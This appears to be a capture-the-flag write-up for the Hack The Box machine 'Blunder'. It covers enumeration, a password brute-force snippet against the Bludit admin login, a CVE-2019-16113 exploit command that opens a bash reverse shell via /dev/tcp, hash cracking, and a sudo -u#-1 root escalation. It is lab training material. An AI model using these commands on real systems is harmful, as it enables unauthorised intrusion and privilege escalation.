


# Blunder
[Room Link](https://www.hackthebox.eu/home/machines/profile/254)

# Enumeration
Using nmap showed us that the only open port was port 80 so the attack would have to be possible using only HTTP.
Running dirbuster showed us that the website contained an /admin/ directory, this directory required a login.


Logging into the website took me forever to figure out but when you find it it's pretty easy.
First thing that I got stuck on for a while was finding a valid userame, I had tried to bruteforce the site using 'admin' but after many failed attempts I gave up on this.
Eventually I realised that I must have missed something on the site and started scanning again with nikto and gobuster.
Nikto showed me that the CMS was Bludit (which you could already tell from the admin login screen) and nothing else important.
I decided to run gobuster to look for files with a .txt, .php or .html extension and eventually found todo.txt.
This file contained the username 'fergus', finding this earlier could have saved me a lot of time.

# Cracking the admin page
Now that we have a username we can crack it.
I found [this issue](https://github.com/bludit/bludit/pull/1090) on their github and edited it to read the rockyou wordlist.

```python
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

def read_file(filename):
    with open(filename, 'r') as file:
        for line in file:
            wordlist.append(line.strip())

read_file('/opt/wordlists/rockyou.txt')
#...
```

So we have a login now right? Well no, we actually don't, fergus his password isn't in rockyou.
I got stumped a very long time here, I fired up another gobuster scan but I still couldn't find anything of note.
I was about to give up but then I remembered a note on the front page of the website.

>I created this site to dump my fact files, nothing more.......?

This gave me the idea to manually look trough the webpages in search of anything that seemed off, I had to do this multiple times until 1 thing stood out to me.
In the article about Stephen King he lists some actors who played in films, one of these "Roland Deschain" didn't have any spacing so it was spelled "RolandDeschain". I decided to try this as a password and if this didn't work I would try all actor names.
I'm unsure if I missed another hint but this ended up being the actual password for the fergus user.

Unless I missed something this feels like a very cheap way to hide the password to me but hey, I found it so let's keep going.

## Getting a shell
After finally logging in we are greeted with an admin menu.


While looking for an exploit to use on Bludit I found an exploit for a [Code Execution Vulnerability in the image upload](https://github.com/bludit/bludit/issues/1079), I attempted to run this exploit but failed at doing so because I didn't fully understand the exploit.
I ended up getting lucky because somebody made a script that does the exploit for you, [you can find it here](https://github.com/cybervaca/CVE-2019-16113).

```bash
python CVE-2019-16113.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/<yourip>/1337 0>&1'"

# In another terminal
netcat -lvnp 1337
```

And boom! We have a shell as www-data now, it's not exactly the best shell to be in but it'll do.

## Upgrading ourselves
I started with some manual enumaration and eventually moved over to linpeas which revealed nothing of note except for the users 'hugo' and 'shaun'.
I had previously found the url to get to the content of the webpage (bl-content), in here you could see a databases folder but there was no database in there.
This gave me the idea to try to get to the bl-content directory inside of the shell. So I moved over to /var/www and to my surprise there were 2 bludit folders, 1 on version 3.9.2 (the one we exploited) and one on version 3.10.0a.
I checked the databases folder on the newer version and found a users.php file containing the following code.

```json
"admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
}
```

User Hugo with a SHA1 encoded password, let's decrypt that, you could probably use hashcat but I decided to use [crackstation](https://crackstation.net/), the password is Password120.

## I am become root
Before becoming hugo I would recommend stabilizing your shell, if you don't know how here's an example using a python oneliner.

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
su - hugo
```

Now we can become hugo, if you didn't stabilize the shell you wouldn't have a pty so su wouldn't work.
We are ready to completely pwn the box now, checking sudo privileges shows us that we can exploit sudo.

>User hugo may run the following commands on blunder:
>    (ALL, !root) /bin/bash

If you've done a lot of CTFs before you might recognize that rule as [this exploit](https://www.exploit-db.com/exploits/47502)
Let's do what it says and become root.

```sh
sudo -u#-1 /bin/bash
```

Congratulations! You have completed the box.

## A little extra?
While exploring the shaun user I was able to find 2 screenshots, I moved these over to the bl-content/uploads directory to see if these were secrets.
I'm not sure why they're here but if you wanted to see them here u go.




## Conclusion
I feel like this was a really fun box, I learned that even the smallest 'mistakes' might be hints in these challeges and to never take any notes for granted.
I would say this box is about a 3/10 in terms of difficulty, definitely if you figure out what fergus his password is early.
